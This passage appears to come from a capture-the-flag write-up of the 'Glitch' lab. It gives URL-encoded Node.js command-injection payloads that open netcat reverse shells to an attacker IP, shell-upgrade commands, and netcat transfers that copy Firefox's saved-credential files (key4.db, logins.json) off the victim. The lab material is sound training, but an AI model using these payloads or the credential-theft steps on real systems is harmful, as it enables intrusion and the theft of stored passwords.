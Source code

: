 ![image](https://user-images.githubusercontent.com/67465230/186192867-3e5ac4cf-d859-40db-b524-5e623debf94e.png)

it won't work since we haven't encoded it yet. 

Let's try this command again after encoding it,

```bash
curl -X POST http://glitch.thm/api/items?cmd=require%28%27child_process%27%29.exec%28%27nc%20-e%20%2Fbin%2Fsh%2010.9.2.86%204444%27%29
```

![image](https://user-images.githubusercontent.com/67465230/197132669-acfbbeee-d9ac-4bb5-8d20-64463ec902d8.png)

which looks good but listenerp doesn't catch anything. So let's change the payload to netcat reverse one-liner from bash reverse one-liner.

Executing this command and we will get the shell,

```bash
curl -X POST http://glitch.thm/api/items?cmd=require%28%27child_process%27%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.2.86%204444%20%3E%2Ftmp%2Ff%27%29
```

![image](https://user-images.githubusercontent.com/67465230/186193007-fd63b0a5-a6eb-4c93-aded-ade90a7e47a2.png)
![image](https://user-images.githubusercontent.com/67465230/186193092-1f291f17-9781-485d-b25b-38b1d5642d5a.png)

Let's improve upon this shell using sequence of commands,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL + Z
stty raw -echo; fg
stty rows 38 columns 116
```

Enumerating user directory and we got the user flag,

![image](https://user-images.githubusercontent.com/67465230/186193153-517e9a13-8371-4e23-a571-bbe2a97a5540.png)

While there is a hidden firefox directory, I decide to navigate to it. This may contain saved passwords for the user. After enumerating, there are two files that can be used to extract any saved credentials. 

First let's copy the files over to our kali machine by starting netcat listener,

```bash
nc -nvlp 5555 > key4.db (attacker)
nc -nv 10.9.2.86 5555 < key4.db (victim)
```

doing same with second file,

```bash
nc -nvlp 5555 > logins.json
nc -nv 10.9.2.86 5555 < logins.json
```
